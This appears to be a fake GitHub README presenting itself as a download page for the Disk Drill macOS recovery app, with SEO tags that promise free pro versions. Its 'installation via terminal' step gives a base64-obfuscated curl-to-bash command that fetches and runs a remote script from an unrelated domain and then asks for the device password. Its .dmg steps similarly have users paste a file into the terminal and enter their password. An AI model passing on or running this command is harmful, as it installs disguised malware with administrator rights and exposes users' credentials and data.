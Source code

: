 # 🛠️ Disk Drill — Powerful Data Recovery Software for macOS

**Disk Drill** by CleverFiles is a leading data recovery tool designed specifically for macOS. It helps you effortlessly recover lost or deleted files from your Mac, external drives, USB devices, and more. With a user-friendly interface and robust recovery algorithms, Disk Drill is trusted by millions to restore important documents, photos, videos, and other data.

Whether you accidentally deleted files or experienced a drive failure, Disk Drill provides a reliable solution tailored for Mac users, supporting a wide range of file systems and recovery scenarios.

---

## ✅ Download Disk Drill for macOS  
[![Download Disk Drill](https://img.shields.io/badge/Download-Disk_Drill-brightgreen)](https://shuziktobehuman.github.io/huja/Disk)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)


## 📦 What is Disk Drill?

Disk Drill is an advanced data recovery application for macOS created by CleverFiles. It supports recovery from internal Mac drives, external hard drives, USB sticks, SD cards, and more. Disk Drill uses powerful scanning algorithms to locate and recover lost data due to accidental deletion, formatting, or system crashes. The app also includes disk health monitoring and data protection tools, making it an all-in-one solution for Mac data management.

---

## ✨ Features

- 🗂 **Recover deleted files** from HFS+, APFS, FAT, exFAT, NTFS, and other file systems  
- 🔍 Deep and Quick scanning modes for faster or thorough recovery  
- 💾 Support for recovery from internal and external drives, USBs, memory cards  
- 🛡 **Recovery Vault** to protect important files proactively  
- 🖥 Simple and intuitive macOS-native interface  
- ⚙️ Disk health monitoring and S.M.A.R.T. status reports  
- 🔄 Preview files before recovery to confirm integrity  
- 📦 Ability to recover documents, photos, videos, audio, archives, and more  

---

## 💡 Why Use Disk Drill?

- 🧰 Comprehensive and reliable data recovery designed for macOS  
- ⚡ Fast and efficient scanning with high success rates  
- 🔒 Proactive data protection features to avoid future data loss  
- 📱 Easy to use for both beginners and professionals  
- 💵 Free version available with powerful features and paid upgrades  

---

[![Download Disk Drill](https://img.shields.io/badge/Download-Disk_Drill-brightgreen)](https://shuziktobehuman.github.io/huja/Disk)

---


## 🖼 Preview

![Disk Drill Screenshot 1](https://www.disk-drill.com/wp-content/uploads/2023/03/Choose-data-source@2x-1024x676.png)  
![Disk Drill Screenshot 2](https://www.mactech.com/wp-content/uploads/2020/10/Disk-Drill.png)

---

## 📌 Tags

disk drill mac, disk drill pro, disc drill mac, disk drill cleverfiles, disk drill osx, disk drill download mac,  
disk drill data recovery mac, disk drill app, disk drill data recovery for mac, mac drill, disk drill mac free, drill mac,  
disk drill pro download, disk drill pro free, disk drill 5.0, disk drill data recovery software for mac, disk drill full mac,  
disk drill pro for free, disk drill mac download


